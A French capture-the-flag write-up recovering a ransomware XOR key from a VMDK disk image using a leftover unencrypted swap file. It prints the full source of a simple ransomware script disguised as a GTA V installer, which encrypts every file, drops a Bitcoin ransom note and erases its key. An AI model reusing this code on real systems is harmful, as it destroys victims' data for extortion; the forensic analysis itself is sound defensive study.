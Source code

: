 # Pas Un Bon Nom

Difficulté : Facile

## Énoncé

> J'étais là tranquillou sur mon PC, m'voyez ? Je télécharge des films et tout, m'voyez ? Et alors il y a ce message étrange que je dois payer Dogecoin pour >  déchiffrer mes données. Je ne l'ai pas fait... donc maintenant mes données sont chiffrées :( Donc tiens, prends le disque dur, c'est pas comme si il était utile maintenant... Sauf si c'était possible de retrouver la clé utilisée par ce méchant hacker, m'voyez ? S'il te plaiiiit ? Tu serais adorable merci !

## Solve

Monter le vmdk :

```shell
sudo modprobe nbd
sudo qemu-nbd -r -c /dev/nbd1 ./PC-jeanne-disk002.vmdk
mount -o ro,noload /dev/nbd1p1 /mnt/tmp
```

### Solve 1

On a un fichier qui nous permet de savoir le type de chiffrement (ici du XOR) :

```shell
cat home/jeanne/GTA_V_installer.py

#!/bin/python3

import os
import fileinput
import sys

main_folder = "./"

def encryptDecrypt(inpDataBytes):

    # Define XOR key
    keyLength = len(xorKey)
 
    # calculate length of input string
    length = len(inpDataBytes)
 
    # perform XOR operation of key
    # with every byte
    for i in range(length):
        inpDataBytes[i] = inpDataBytes[i] ^ ord(xorKey[i % keyLength])

    return inpDataBytes

if __name__ == '__main__':
    # list all the files in the main folder, and its subfolders
    #list_of_files = [main_folder + f for f in os.listdir(main_folder) if os.path.isfile(main_folder + f) and not f.startswith('.')]
    list_of_files = []
    for root, dirs, files in os.walk(main_folder):
        for file in files:
            if not '/.' in os.path.join(root, file):
                # get the file name
                list_of_files.append(os.path.join(root, file))
    print(list_of_files)
    print("\n")

    xorKey = input("Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: ")

    for file in list_of_files:
        if "GTA_V_installer.py" not in file:
            with open(file, 'rb') as f:
                data = bytearray(f.read())
                print("data : " + str(data) + "\n")
                encrypted_data = encryptDecrypt(data)
                print("encrypted : " + str(encrypted_data) + "\n")
            with open(file, 'wb') as f:
                f.write(encrypted_data)

    # Create a READ_TO_RETRIEVE_YOUR_DATA.txt file
    with open(main_folder + "READ_TO_RETRIEVE_YOUR_DATA.txt", 'w') as f:
        f.write("Your PC is now encrypted.\nThe only way you may retrieve your data is by sending 1000 Bitcoins to the following address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n")
        f.write("Add a message to the Bitcoin transfer with your email address.\nThe code to decrypt your data will be sent automatically to this email.\n")
        f.write("Once you get this code, simply run \"python GTA_V_installer.py\" and input your code.\n")
        f.write("I'm very sorry for the inconvenience. I need to feed my family.\n")
        f.write("HODL.\n")

    # I replace the line where the key is defined, that way I can use the same script for decryption without leaving any trace of the key
    is_edited = False
    for line in fileinput.input("./GTA_V_installer.py", inplace=1):
        if "xorKey = " in line and not is_edited:
            line = "    xorKey = input(\"Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: \")\n"
            is_edited = True
        sys.stdout.write(line)
```

L'objectif va donc d'être de retrouver la clé pour déchiffrer.

Après avoir regarder dans les logs, le bash_history, etc... On trouve rien de spécial nous permettant de déchiffrer les documents.

Cependant, si on regarde dans les documents :

```shell
ls -al home/jeanne/Documents/
total 72
drwxr-xr-x  2 zarkyo zarkyo  4096 14 oct.  12:29 .
drwxr-x--- 13 zarkyo zarkyo  4096 14 oct.  12:31 ..
-rw-rw-r--  1 zarkyo zarkyo  1116 14 oct.  12:31 2019_Q1_report.txt
-rw-rw-r--  1 zarkyo zarkyo   994 14 oct.  12:31 2019_Q2_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1011 14 oct.  12:31 2019_Q3_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1260 14 oct.  12:31 2019_Q4_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1343 14 oct.  12:31 2020_Q1_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1264 14 oct.  12:31 2020_Q2_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1265 14 oct.  12:31 2020_Q3_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1347 14 oct.  12:31 2020_Q4_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1468 14 oct.  12:31 2021_Q1_report.txt
-rw-r--r--  1 zarkyo zarkyo 12288 14 oct.  12:29 .2021_Q1_report.txt.swp
-rw-rw-r--  1 zarkyo zarkyo  1289 14 oct.  12:31 2021_Q2_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1407 14 oct.  12:31 2021_Q3_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1447 14 oct.  12:31 2021_Q4_report.txt
-rw-rw-r--  1 zarkyo zarkyo  1434 14 oct.  12:31 2022_Q1_report.txt
```

On remarque le fichier caché `.2021_Q1_report.txt.swp` qui lui n'est pas chiffré. On a également sa version chiffré `2021_Q1_report.txt`

Pour obtenir la clé, il suffit de `cipher XOR plain`

On va prendre notre fichier chiffré, le transformer en **hexa** (Cyberchef), puis dans **dcode** on fournit notre hexa obtenu à l'instant ainsi que cette clé ASCII : `In Q1, we achieved our highest ever vehicle production and deliveries. This was in s`

on obtient au début de notre résultat de la base64

```shell
echo 'REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=' | base64 -d
DGHACK{7H15_1S_7H3_K3Y_G1V3N_70_7H3_GTA_V_R4N50MW4R3_V1C71M5}
```

Demonter le disque :

```shell
umount mnt tmp
qemu-nbd -r -d /dev/nbd1
```

### Solve 2

```shell
strings * | grep -ari "xor" | more
[...]
n\n    xorKey = \"REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=\"\n\n    for file in list_of_files:\n        if \"GTA_V_installer.py\" not in file:\n            with open(file, 'rb') as f:\n        
[...]
```

La clé au format base64 nous apparait au début du résultat

```shell
echo 'REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=' | base64 -d
DGHACK{7H15_1S_7H3_K3Y_G1V3N_70_7H3_GTA_V_R4N50MW4R3_V1C71M5}
```

**Flag : DGHACK{7H15_1S_7H3_K3Y_G1V3N_70_7H3_GTA_V_R4N50MW4R3_V1C71M5}**